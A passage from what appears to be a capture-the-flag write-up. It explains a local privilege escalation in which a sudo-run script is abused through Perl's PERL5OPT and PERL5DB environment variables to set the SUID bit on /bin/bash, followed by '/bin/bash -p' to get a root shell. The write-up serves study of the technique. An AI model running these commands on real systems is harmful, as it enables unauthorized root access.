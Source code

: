 ```bash
if [[ $NOSAVE == "true" ]]; then
    exit;
else
    timestamp=$(/usr/bin/date +%s)
    /usr/bin/echo $data > /root/diagnostic_files/diagnostic_${timestamp}.xml
fi
```

The line `/usr/bin/xml_pp` is written in Perl, so it's clear that this script will be executed with Perl. While researching, I found a [vulnerability](https://www.exploit-db.com/exploits/39702) for local privilege escalation in PERL. You can find more information about environment variables for PERL [here](https://perldoc.perl.org/perlrun).

This vulnerability allows the execution of a root command by exploiting Perl's environment variables. The command looks like this:

```
sudo PERL5OPT=-d PERL5DB='exec "chmod u+s /bin/bash"' /opt/monitor.sh
```

The `PERL5OPT=-d` set makes Perl commands have the `-d` (debugger) argument.

The `PERL5DB='exec "chmod u+s /bin/bash"'` set causes that line to execute when the debugger starts.

In other words, when running the .sh, the `chmod u+s /bin/bash` command will be executed.

Now, simply run bash, and you'll have root access.

```
/bin/bash -p
```
